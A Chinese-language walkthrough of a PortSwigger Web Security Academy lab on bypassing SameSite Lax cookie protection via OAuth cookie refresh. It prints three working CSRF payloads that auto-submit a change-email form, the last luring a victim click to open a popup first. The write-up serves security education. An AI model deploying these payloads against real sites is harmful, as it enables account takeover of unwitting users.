



# 题意
# 解题思路
step1:测试请求

用OAuth登录网站，获取对应请求如下

可以看到没有给cookie设置SameSite属性，说明是默认的Lax。

step2:测试CSRF攻击
在exploit server中写入如下payload，查看exploit。

如果登录时间超过2分钟，则会按照正常OAuth登录，攻击失败。这是就需要重新登录并且再次发起攻击

```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```



step3:绕过SameSite限制

访问/social-login页面会自动初始化一个完整的OAuth flow，同时，目标站点会生成一个新的会话cookie，即使是已经登录的情况。将exploit server的payload改成如下：
```

<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```
这段payload在一个新窗口中打开了/social-login来触发cookie刷新。短暂延迟后CSRF攻击生效。但这只是在cookie生成好两分钟之内有效，超过两分钟会因为拦截弹出窗口阻止cookie刷新而失效。


step4:绕过拦截窗口

弹出窗口被拦截是因为没有手动与页面交互。调整页面，使其诱导受害者点击页面，并且仅在用户点击后才打开弹出窗口。payload如下：
```


<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

保存后查看exploit。


# 知识点
## 利用刷新cookie绕过SameSite Lax限制
被Lax级限制的cookie通常不会发送任何跨站POST请求，但是又一些例外。一般来说，浏览器在没有设置SameSite等级的情况下会将其默认设置为Lax，但是，为了不破坏单点登录机制，在收到top-level POST请求后的120s内SameSite限制并没有启动。这就有一个可能实施攻击的两分钟窗口期。注意，这两分钟窗口期不适用于明确被设置成SameSite=Lax的cookie。


但要在两分钟内完成整个攻击不太现实，如果能在目标站点找到一个方法，强制向受害者发出新的会话 cookie，就可以在跟进主要攻击之前先发制人地刷新他们的 cookie。例如，每完成一个基于OAuth的登录流程都会生成一个新的会话。因为OAuth服务不需要知道用户是否仍然登录在目标站点。


为了能在不让受害者手动登录的同时刷新cookie，需要用到top-level navigation。它能保证cookie和cookie当前的OAuth会话被包含。但这也引入了一个新的问题就是需要将用户重定向回攻击者的网站，进而实施CSRF攻击。

还有一种方法是从新标签页触发cookie刷新，这样浏览器在攻击者发动最终的攻击前不需要离开页面。但同时也有个小问题，浏览器会阻塞弹出窗口，除非是被手动打开的。例如
，下面这个页面会被阻塞：
```
window.open('https://vulnerable-website.com/login/sso');

```

可以用onclick 处理器将其封装：
```
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```
这样，window.open()方法就只会在用户点击页面的某个地方时被唤起。